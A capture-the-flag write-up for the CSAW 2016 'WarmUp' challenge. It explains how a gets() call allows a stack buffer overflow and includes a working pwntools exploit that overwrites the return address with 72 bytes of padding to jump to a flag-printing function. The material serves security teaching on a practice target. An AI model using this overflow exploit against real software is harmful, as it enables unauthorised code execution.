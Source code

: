 # WarmUp - 50 PWN

### Introduction/First look at the program
This writeup will contain an in-depth guide for the challenge "WarmUp" from the CSAW 2016 qualifiers. I did not do this challenge when it was live but instead learned by using their archive of challenges at [365 CSAW](https://365.csaw.io/). Follow the instructions on the website if you want to register and try out these challenges yourself. It contains challenges from previous years that you can do yourself! Link is also found on the my main CTF repo.

This is what the challenge says:

![warmup](https://user-images.githubusercontent.com/41026969/50432982-6644ff00-08a3-11e9-8620-b93ddd847117.png)

##### Note: the nc address will not work for you. You would have to register on the website, download your VPN keys and you will be able to connect to your own address. 

Doing a ```file warmup``` check to see what type of filetype it is, we see it is an 64 bit ELF (executable linux file). The executable is linked above if you wish to download it yourself. This is how the program looks like when executed (after first giving it executable permission using ```chmod +x warmup```):

![warmup output](https://user-images.githubusercontent.com/41026969/50433220-a062d080-08a4-11e9-97ba-78a678393f16.png)

So when we execute the program, we see there's a header that just says ```-Warm Up-```. But the next line is interesting, we see something interesting: ```WOW: 0x40060d```. That's an interesting address...

### Inspecting program with IDA pro
Let's pop this executable into IDA pro and take a look into the ```main``` function.

![warmup ida](https://user-images.githubusercontent.com/41026969/50433411-069c2300-08a6-11e9-8f56-ef023af9ce54.png)

We see that there are two variables, one being ```char s``` that is size [128] and we also have a ```char v5``` that is of size [64]. The values that are shown (80 and 40 respectively) show the values in hex, you can right click them in IDA and display them as a decimal number.

So let's take a look of what each call does:

```write()``` in c takes in 3 arguments: the file descriptor (0 for stdin, 1 stdout, 2 stderror), the buffer variable, and the number of bytes to write.

So basically all these write functions are printing things out to us.

The ```sprintf()``` function is basically the ```printf``` function except it saves what would be printed in the buffer variable.

The last function we see is ```gets()```... THIS FUNCTION IS EXTREMELY VULNERABLE

```gets()``` does NOT check if the input is larger than the buffer size. For example, if you write a program and declare a variable ```name[5]```, and you use ```gets()``` for the user to input their name, the program will NOT check if the name they inputted was over 5 letters long and it WILL overwrite into other memory.

### The exploit/Stacks/Registers
We can use this fact to exploit the program using what's called a buffer overflow. Remember that interesting function's memory address we saw before (that was printed to the screen)? Looking into what it does in IDA we see that it will give us the flag! So knowing all the information above, we can write an exploit so that the program will instantly return to that function that will print us the flag. Though it's not as easy as inputting 64 characters... 

First off, you should read about stacks in x86 and how they behave, specifically the [function prologue](https://en.wikipedia.org/wiki/Function_prologue) [(another resource here)](https://stackoverflow.com/questions/14765406/function-prologue-and-epilogue-in-c). Here's a great video on x86 in general: [x86 Assembly Crash Course](https://www.youtube.com/watch?v=75gBFiFtAb8&).

To put in simply terms with some visual aid, when a function is called, the function prologue starts:

1. The original function (before jumping to the function called) is stored onto the stack.
2. The Base Pointer is pushed onto the stack 
3. The Stack Pointer is made equal to the Base Pointer and is decremented to make room for variables.

As the function runs and is finished, the stack pointer is set back to equal the base pointer freeing all memory. Then the base/stack pointer is popped. Then it returns to the previous function by popping the original function's address and jumping to it.

Here's how it looks visually:

![buffer_overflow1](https://user-images.githubusercontent.com/41026969/50466083-68719100-0969-11e9-830d-73210aaec353.jpg)

Since this program is 64 bit, this means that the addresses will be 8 bytes, hence the base pointer address being stored as 8 bytes long in the stack. 

If we want to execute the buffer overflow attack to go into that specific funciton (which the address was given to us conveniently) we need to overwrite the buffer, through the base pointer, and inject an address that's 8 bytes long; because once the function is done it will instead return to the address we overwrote it in.

So we can input 72 characters (doesn't matter what character, we'll make it 'Z'). We get 72 because we need to overwrite the buffer, which is 64 bytes, and we also need to overwirte through the base pointer, which is 8 bytes (64 + 8 = 72). Then the next 8 bytes we write HAS to be the address we want the function to exit into.

Also note: since this is popped like a stack, we need to write the address backwards, for example we have the address ```0x40060d``` (also note this address is 3 bytes long so we have to add 0's in the front to make them, each digit that's shown in hex is equivalent to half a byte). Putting those 0's at the front will have no effect on what it represents, though adding it to the end will make it different. 

So this is how the address looks like:
```
0x  00  00  00  00  00  40  06  0d
    1st 2nd 3rd 4th 5th 6th 7th 8th byte
```
Writing it backwards will look like:
```
0x  0d  06  40  00  00  00  00  00 
```

So now we cam write an exploit. So this code is a little different, the netcat address is different (everytime I create a new VPN session the address changes) and the address to the funciton I have to jump to is different than the one in IDA, nevertheless, it's the same process.

Here's my written exploit in python, it's pretty well commented out to help:
```python
# Exploit written to do a buffer overflow
from pwn import *

# Connect to the adderss and scan until after WOW: was scanned
session = remote("10.67.0.1", 32532)
session.recvuntil("WOW:")

# the address variable will hold everything between WOW: and inculding the new line character which we remove with [:-1]
address = session.recvuntil("\n")[:-1]

# I just like to put print statements to make sure everything was inputted correctly
print(address)

# Either payload line works, the first just converts the address into int to later package into 64 byte address
# The second line is writing the address manually, remember we have to write the address backwards
# payload = "Z" * 72 + p64(int(address, 16))
payload = "Z" * 72 + "\xf6\x05\x40" + "\x00" * 5

# Sends the payload
session.sendline(payload)
session.interactive()
```
When run, this is what it outputs:
![my_exploit](https://user-images.githubusercontent.com/41026969/50530406-121c6380-0acb-11e9-9c3f-c1ef2b3a4425.png)
###### note: the ```0x4005f6``` in the output shown was the address I had to jump to

We got the flag!
```
>FLAG{LET_US_BEGIN_CSAW_2016}
```
